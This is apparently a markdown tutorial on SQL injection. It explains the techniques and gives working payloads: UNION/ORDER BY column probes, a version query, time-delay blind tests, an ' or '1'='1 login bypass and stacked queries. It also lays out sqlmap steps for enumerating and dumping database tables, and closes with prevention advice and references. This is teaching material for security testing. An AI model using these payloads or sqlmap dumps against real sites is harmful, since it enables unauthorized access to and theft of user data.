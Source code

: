 # SQL Injection

SQL injection attack consists of insertion of either a partial or complete SQL query via the data input from the client (Browser) to application Server.

## Impact

A successful SQL injection attack can result in:
- Authentication Bypass 
- Unauthorized access of sensitive data, like: Personal user information, Passwords, Credit card details, etc.
- Attacker can obtain a persistent backdoor into an organization's systems.

## SQL Injection Technique

### 1. In-band SQLi (Classic SQLi)
   - ***Error-based SQLi:*** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
   - ***Union-based SQLi:*** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
 
### 2. Inferential SQLi (Blind SQLi)
   - ***Boolean-based:*** use Boolean condition(s) to verify whether certain conditions are true or false.
   - ***Time-based:*** use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn’t have some kind of answer (result, output, or error) from the application

### 2. Out-of-band SQLi
   This technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).

### Second-order SQL injection (also known as stored SQL injection):
First-order SQL injection arises where the application takes user input from an HTTP request and,in the course of processing that request, incorporates the input into an SQL query in an unsafe way.

In second-order SQL injection, the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability arises at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into an SQL query in an unsafe way.

## Standard SQL Injection Testing

### Determining the number of columns required in an SQL injection UNION attack
1.  ORDER BY clauses and incrementing the specified column index until an error occurs.
 ```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc. 
```
When the specified column index exceeds the number of actual columns in the result set, the database returns an error, such as:`The ORDER BY position number 3 is out of range of the number of items in the select list`

2. UNION keyword can be used to retrieve data from other tables within the database
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
 If the number of nulls does not match the number of columns, the database returns an error, such as:`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists` 

### Finding columns with a useful data type in an SQL injection UNION attack

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'-- 
```
If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:`Conversion failed when converting the varchar value 'a' to data type int`
 
### Find database type and version 
```' UNION SELECT @@version--```

### Bliend - Time delays
```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
The first of these inputs will not trigger a delay, because the condition 1=2 is false. The second input will trigger a delay of 10 seconds, because the condition 1=1 is true. 

### Example 1 (classical SQL Injection):
Consider the following SQL query:
```
SELECT * FROM Users WHERE Username='$username' AND Password='$password'
$username = 1' or '1' = '1
$password = 1' or '1' = '1
The query will be:
SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1' 
```

### Example 2 (simple SELECT statement):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10
```

### Example 3 (Stacked queries):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10; INSERT INTO users (…)
```
- More Information: https://www.owasp.org/index.php/SQL_Injection
![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png)
![image](https://user-images.githubusercontent.com/65315090/129912819-124fbe54-d140-4133-8a99-0a3092ba3b15.png)

## Tools for SQL Injection

### [SQLMap](https://sqlmap.org/)

**Step-1:** Find Current Database name
  `sqlmap –u http://www.nayan.com/item_id=3 --level=5 --risk=3 --current-db --batch`

**Step-2:** List DBMS database
  `sqlmap –u http://www.nayan.com/item_id=3 --dbs`

**Step-3:** List Tables
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename --tables`
  
**Step-4:** List columns on tables
	`sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info --columns`
  
**Step-5:** List column data from columns
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info –C login --dump`

## Prevent SQL injection

1. Prevented by using ***Parameterized queries***, instead of string concatenation within the query. (also known as ***Prepared statements***)
2. Filter out special charactercharacter like:`' " - # / \ ; NULL , () @` in all strings from:
   - Input from users
   - Parameters from URL
   - Values from cookie

Mitigation: https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

## Refrence
- https://portswigger.net/web-security/sql-injection
